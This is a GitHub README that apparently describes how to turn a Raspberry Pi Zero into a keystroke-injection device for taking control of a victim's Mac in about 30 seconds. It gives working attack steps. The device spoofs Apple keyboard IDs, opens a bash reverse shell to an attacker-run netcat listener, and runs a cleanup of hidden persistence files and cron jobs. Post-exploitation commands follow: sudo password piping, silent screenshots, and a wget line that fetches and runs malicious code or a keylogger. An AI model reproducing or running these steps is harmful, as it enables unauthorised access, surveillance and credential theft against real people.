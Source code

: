# Ducky Raspberry Pi Zero for Mac

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/LICENSE)

This is a project to convert a normal Raspberry Pi Zero into a USB Rubber Ducky using P4wnP1. There are some threads online about P4wnP1 not running on Mac but here is an introduction about how to setup so your Pi would be able to attack a Mac. Only using pure bash on victim's machine, not third party library or package installation needed. In just 30 seconds, you'd gain control to victim's machine.

![Ducky Raspberry Pi Zero](https://raw.githubusercontent.com/ohbriansung/usb_rubber_ducky/master/pi_zero_ducky/img/concept.jpg)

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.

```
username: pi
password: raspberry
```

4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).

```shell
sudo raspi-config
```

6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)

```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```

7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.

```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](https://github.com/ohbriansung/usb_rubber_ducky/blob/master/pi_zero_ducky/payloads/hid_keyboard_hello_world.txt).

```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```

9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".

```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```

10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.

```shell
sudo shutdown -h now
```

11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.

```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.

```shell
nc -l -p 8080 -vvv
```

2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)

```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```

3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads](https://github.com/ohbriansung/usb_rubber_ducky/tree/master/pi_zero_ducky/payloads) folder there is a reverse shell ducky script example. Here is the clean up script if you use my example.

```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

*For a newer version of OSX, you would find out that you Mac pops out a window and you need to select OK manually. This is an improvement made by Apple for cron job. If you use the payload without cron job, you will be just fine.*

## What Now

- Rick roll prank

```shell
# One privilege of hacking Mac is we have access to AppleScript.
osascript -e 'set volume 7'
open https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

- Accessing sudo privilege

```shell
echo "password" | sudo -S ls
```

*You would be able to run a background program to brute-force victim's password.*

- Take a screenshot

```shell
osascript -e 'set volume 0'
screencapture ~/a.jpg
```

- Download and run a malicious code or KeyLogger to gain further control.

```shell
wget -O /tmp/x -q -o /dev/null http://link_to_malicious_code/
chmod a+x /tmp/x
/tmp/x
```

- ~~Take a photo with Mac's webcam~~

*Apparently, Apple has a very strong security and privacy. It's nearly impossible to control hardware like webcam or mic without really operating on the machine.*

## Author and Contributors

- Chien-Yu \(Brian\) Sung
- Jordan Aldujaili
- Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
1. [P4wnP1](https://github.com/mame82/P4wnP1/)
1. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
